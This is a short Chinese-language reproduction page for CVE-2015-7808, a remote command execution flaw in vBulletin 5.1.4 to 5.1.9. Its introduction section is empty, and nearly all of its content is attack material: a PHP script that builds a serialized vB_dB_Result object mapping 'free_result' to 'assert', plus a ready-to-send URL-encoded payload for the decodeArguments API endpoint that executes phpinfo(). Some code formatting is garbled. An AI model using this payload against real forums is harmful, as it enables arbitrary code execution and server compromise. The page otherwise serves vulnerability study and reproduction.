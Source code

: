 ```yaml
---
title: （CVE-2015-7808）VBulletin 远程命令执行漏洞
id: zhfly3217
---
```


# （CVE-2015-7808）VBulletin 远程命令执行漏洞

## 一、漏洞简介

## 二、漏洞影响

VBulletin VBulletin 5.1.4 - 5.1.9

## 三、复现过程

```
$ php << 'eof'
 <?php
 class vB_Database_MySQL{
        public $functions = array();

```
 public function __construct() 
    {
            $this-&gt;functions['free_result'] = 'assert';
    } 
```

}

class vB_dB_Result {

protected $db;

protected $recordset;

```
 public function __construct()
    {
            $this-&gt;db = new vB_Database_MySQL();
            $this-&gt;recordset = "phpinfo()";
    } 
```

} `print urlencode(serialize(new vB_dB_Result())) . “n”;

eof` 
```

```
http://0-sec.org/ajax/api/hook/decodeArguments?arguments=O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2A%00db%22%3BO%3A17%3A%22vB_Database_MySQL%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A6%3A%22assert%22%3B%7D%7Ds%3A12%3A%22%00%2A%00recordset%22%3Bs%3A9%3A%22phpinfo%28%29%22%3B%7D 
```

![image](../img/da80244e114d31026479a1edf0fcc660.png)